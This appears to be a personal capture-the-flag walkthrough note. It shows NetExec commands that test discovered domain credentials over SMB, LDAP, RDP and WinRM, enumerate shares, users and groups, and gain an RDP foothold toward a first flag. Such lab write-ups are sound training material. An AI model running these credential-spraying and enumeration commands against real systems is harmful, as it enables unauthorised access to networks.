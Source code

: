 
You can try any of the following commands with both users previously discovered.

1. **Test the creds over SMB/LDAP**
    
    `nxc smb <MACHINE IP> -u IVY_WILLIS -p 'CHANGEME2023!'`
    
2. **If valid, enumerate shares**
    
    `nxc smb <MACHINE IP> -u IVY_WILLIS -p 'CHANGEME2023!' --shares`
    
3. **If domain account works** → pivot into Kerberos enumeration:
    
    `nxc ldap <MACHINE IP> -u IVY_WILLIS -p 'CHANGEME2023!' --groups nxc ldap 10.10.41.122 -u IVY_WILLIS -p 'CHANGEME2023!' --users`
    
4. **Check RDP/WinRM** if enabled:
    
    `nxc rdp <MACHINE IP> -u IVY_WILLIS -p 'CHANGEME2023!' 
    `nxc winrm <MACHINE IP> -u IVY_WILLIS -p 'CHANGEME2023!'`
    

---

🔥 In short:  
That LDAP output just gave you a **domain user + likely password** → this is your foothold into AD.



---

After trying with both users, the only effective method is:

```
nxc rdp <MACHINE IP> -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!'

```

![[Attack Path-20250828114016695.webp]]

**Next step:** [[RDP (First flag)]]
